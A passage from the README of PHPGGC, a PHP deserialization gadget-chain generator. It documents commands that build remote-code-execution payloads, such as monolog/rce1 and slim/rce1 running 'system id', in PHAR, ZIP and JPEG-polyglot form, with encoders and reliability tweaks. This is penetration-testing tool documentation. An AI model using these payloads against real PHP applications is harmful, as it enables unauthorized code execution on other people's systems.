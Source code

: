 ### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII char to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*
